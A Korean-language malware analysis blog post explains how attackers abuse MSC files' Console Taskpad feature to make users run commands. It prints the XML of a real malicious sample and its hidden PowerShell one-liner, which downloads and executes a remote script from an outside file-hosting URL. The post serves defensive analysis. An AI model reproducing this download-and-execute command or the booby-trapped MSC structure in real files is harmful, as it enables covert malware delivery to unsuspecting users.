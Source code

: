 ```yaml
---
title: '📑 "MSC", Malware Analysis'
date: 2024-12-09 21:00:00 +0900
categories: [Malware Analysis Guide]
tags: [malware_analysis_guide, msc]
render_with_liquid: false
---
```




MSC(Microsoft System Center) 파일은 시스템 관리 및 모니터링에 사용되는 XML 형식의 파일입니다. Microsoft Management Console(mmc.exe)를 사용해 열 수 있으며, 다양한 관리 도구의 저장 및 실행에 사용됩니다. 공격자는 해당 파일이 시스템과 관련된 파일에 사용되는 형식임을 악용하여 사용자가 정상 파일로 착각하도록 유도합니다. 



## <mark>1. MSC 파일</mark>

MSC 파일은 일반적으로 시스템 관리 및 모니터링에 사용되는 파일입니다. 공격자는 해당 사실을 악용하여 사용자가 정상 파일로 착각하도록 유도합니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/image-20241209220102068.png" alt="image-20241209220102068" style="zoom: 80%;" />

파일을 오픈하게 되면, Microsoft Management Console(mmc.exe)에 의해 실행됩니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912113120127-1733738421240-1.png" alt="IMG-msc 분석-20240912113120127" style="zoom: 80%;" />

XML 형식을 사용하기 때문에 텍스트 에디터를 사용하여 파일 내부를 확인할 수 있습니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912113201295-1733738425481-3.png" alt="IMG-msc 분석-20240912113201295" style="zoom:67%;" />



## <mark>2. MMC Console Taskpad</mark>

MSC 파일은 MMC Console Taskpad 기능을 사용하여 내부에 명령어를 삽입할 수 있습니다. 공격자는 해당 기능을 사용하여, 사용자가 특정 버튼을 클릭해 악성 스크립트를 실행하도록 유도합니다.

> [!NOTE]   
> 🔗 [MMC Console Taskpad](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/mmc-console-taskpad)

![IMG-msc 분석-20240912115210945](../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912115210945-1733738436425-5.png)

## <mark>3. 악성 MSC 샘플 분석</mark>

### ▪ <u>파일 내부 확인</u>

MSC 파일은 XML 형식을 사용하기 때문에 텍스트 에디터를 사용해 내부를 확인할 수 있습니다. ConsoleTaskPads 기능이 존재하는지, 존재한다면 어떤 명령어를 사용하고 있는지 확인합니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912113555178-1733738451950-7.png" alt="IMG-msc 분석-20240912113555178" style="zoom: 67%;" />

샘플의 경우, ConsoleTaskpads에 Powershell 명령어가 포함되어 있는 것이 확인되었습니다.

```xml
  <ConsoleTaskpads>
    <ConsoleTaskpad ListSize="Medium" IsNodeSpecific="true" ReplacesDefaultView="true" NoResults="true" DescriptionsAsText="true" NodeType="{C96401CE-0E17-11D3-885B-00C04F72C717}" ID="{656F3A6A-1A63-4FC4-9C9B-4B75AF6DF3A3}">
      <String Name="Name" ID="4"/>
      <String Name="Description" Value=""/>
      <String Name="Tooltip" Value=""/>
      <Tasks>
        <Task Type="CommandLine" Command="powershell.exe">
          <String Name="Name" ID="5"/>
          <String Name="Description" ID="11"/>
          <Symbol>
            <Image Name="Small" BinaryRefIndex="6"/>
            <Image Name="Large" BinaryRefIndex="7"/>
          </Symbol>
          <CommandLine Directory="" WindowState="Minimized" Params="-WindowStyle Hidden -Command iex (iwr -Uri 'https://oshi.at/PTgX/jIML.txt' -UseBasicParsing)"/>
        </Task>
      </Tasks>
      <BookMark Name="TargetNode" NodeID="1"/>
    </ConsoleTaskpad>
  </ConsoleTaskpads>
```

### ▪ <u>명령어 분석</u>

Powershell 스크립트 파일로 추정되는 jIML.txt 파일을 다운로드 받아 파일 내부에 있는 코드를 실행하는 명령어가 포함되어 있는 것이 확인되었습니다.

```powershell
powershell.exe -WindowStyle Hidden -Command iex (iwr -Uri 'https://oshi.at/PTgX/jIML.txt' -UseBasicParsing)
```

